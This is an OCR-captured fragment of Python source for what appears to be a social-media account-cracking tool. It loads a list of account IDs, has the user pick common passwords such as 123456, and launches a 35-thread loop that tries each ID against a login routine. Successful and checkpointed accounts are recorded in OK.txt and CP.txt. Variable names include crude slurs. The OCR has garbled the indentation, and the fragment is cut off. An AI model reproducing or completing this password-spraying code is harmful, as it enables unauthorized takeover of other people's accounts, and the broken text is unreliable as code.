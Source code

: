    readline___Public_Xml()
 except KeyError:
   print('\n\n[*] Token Expired ')
   time.sleep(1)
   login()
def banner():
 logo()
def hasil(ok,cp):
 if len(ok) != 0 or len(cp) != 0:
  AYAN_ARAIN('\n\n\033[0m The Prosess Done...')
  AYAN_ARAIN('\n\033[1;92mTotal OK : %s •  Total CP : %s'%(str(len(ok)),str(len(cp))));exit()
  #AYAN_ARAIN('\033[1;91mCHECK > %s'%(str(len(cp))));exit()
 else:
  AYAN_ARAIN('\n\033[0mUps..Tidak Mendapatkan Hasil')
  exit()
class __crack__:
 def __init__(self):
  self.id = []
 def plerr(self):
  try:
   self.apk = input(" [*] File Name : ")
   print (' [*]=============================================')
   self.id = AYAN(self.apk).read().splitlines()
   AYAN_ARAIN(' [*] Total ID : %s'%(len(self.id)))
   print (' [✓] Are You Went To Continue : Type Y')
  except:
   AYAN_ARAIN('\n [!] File Not Found In Storage')
   input('\n [*] Press Enter To Back');readline___Public_Xml();print("[M] Menual Password ");print('[D] Default Password ')
     
  _jokowi_kontol_ = input(" [*] Choose : ")
  if _jokowi_kontol_ in ('M', 'm'):
   print('[*] Function Added in new update ')
  
   AYAN_ARAIN('\nEnter Password 123456 or 123456789 For OLd Idz ')
   while True:
    pwek = input('\nEnter Password : ')
    #AYAN_ARAIN('Sandi > %s'%(pwek))
    if pwek == '':
     AYAN_ARAIN('\nJangan Kosong')
     time.sleep(1)
     exit()
    elif len(pwek)<=5:
     AYAN_ARAIN('\nSandi Harus 6 Karakter Lebih Tidak Masalah')
    else:
     def _sempak_(bse=None):
      boy = input('\nPilih : ')
      if boy == '':
       AYAN_ARAIN('\nJangan Kosong')
       time.sleep(1);self._sempak_()
      elif boy == "1" or boy == "01":
       AYAN_ARAIN('\n[•] Result OK saved to OK.txt')
          AYAN_ARAIN('[•] Result CP saved to CP.txt')
       AYAN_ARAIN('\n\tCrack Processing...\n')
       AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
       with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
        for ikeh in self.id:
         try:
          kimochi = ikeh.split('|')[0]
          _ngentot_gratis_.submit(self.__api__, kimochi, bse)
         except: pass
         